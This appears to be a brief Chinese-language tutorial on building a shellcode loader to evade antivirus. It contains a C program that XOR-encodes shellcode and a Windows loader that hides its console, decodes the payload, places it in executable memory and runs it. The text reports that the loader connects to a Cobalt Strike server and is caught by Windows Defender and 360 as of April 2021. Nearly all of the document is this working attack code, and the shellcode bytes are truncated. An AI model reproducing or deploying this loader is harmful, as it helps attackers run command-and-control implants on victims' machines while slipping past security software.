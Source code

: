 使用VS2019编译如下C代码，对shellcode进行异或编码，修改变量a的值即修改shellcode
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfa\xee\x8f\x6\x6\x6\x66\x8f...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8((volatile char*)buf + i, 6);
    }
    char* old = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS

但在2021/04/28日测试时，会被Windows Defender、360查杀
